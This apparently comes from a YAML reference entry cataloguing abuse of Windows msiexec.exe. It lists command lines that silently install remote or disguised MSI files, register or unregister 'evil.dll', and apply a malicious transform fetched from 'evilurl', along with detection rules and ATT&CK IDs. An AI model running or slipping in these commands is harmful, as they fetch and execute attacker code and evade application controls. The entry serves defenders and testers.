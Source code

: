 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DLLUnregisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a transformation file will be used, which can contains malicious code or binaries. The /qb will skip user input.
    Usecase: Install trusted and signed msi file, with additional attack code as transformation file, from a remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_web_install.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_masquerading.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/uninstall_app_using_msiexec.yml
  - IOC: msiexec.exe retrieving files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
  - Link: https://badoption.eu/blog/2023/10/03/MSIFortune.html
Acknowledgement:
  - Person: netbiosX
    Handle: '@netbiosX'
  - Person: Philip Tsukerman
    Handle: '@PhilipTsukerman'
---
```

